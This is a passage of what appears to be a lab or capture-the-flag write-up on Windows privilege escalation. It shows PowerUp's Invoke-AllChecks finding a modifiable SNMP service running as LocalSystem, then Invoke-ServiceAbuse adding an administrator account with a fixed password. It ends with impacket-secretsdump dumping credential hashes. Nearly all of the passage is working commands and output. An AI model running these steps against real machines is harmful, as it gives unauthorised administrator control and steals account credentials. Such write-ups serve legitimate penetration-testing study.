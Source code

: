 ```
PS C:\Users\mark> . .\p.ps1
PS C:\Users\mark> Invoke-AllChecks
```

We have a misconfigured `SNMP` service loaded by `LocalSystem` . We can modify the service to inject commands and restart it (CanRestart true) to run it

```
ServiceName   : SNMP
Path          : C:\Windows\System32\snmp.exe
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'SNMP'
CanRestart    : True
Name          : SNMP
Check         : Modifiable Services
```

We can do it using PowerUp or manually. The PowerUp command is `Invoke-ServiceAbuse -Name 'SNMP'

The abuse command can be modified with a specific command or a specific user/pass created as administrator

This machine was private, I left the default abuse which add an administrator user with `john:Password123!`

```
PS C:\Users\mark> PS C:\Users\mark> Invoke-ServiceAbuse -Name 'SNMP'

ServiceAbused Command                                                                   
------------- -------                                                                   
SNMP          net user john Password123! /add && net localgroup Administrators john /add
```

We can confirm the created user

```
PS C:\Users\mark> net localgroup Administrators
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
john
The command completed successfully.
```

## Dump hashes

As we have administrator access, we can dump hashes. I used `impacket-secretsdump`

```
impacket-secretsdump bastion/john:"Password123\!"@10.8.0.3
```
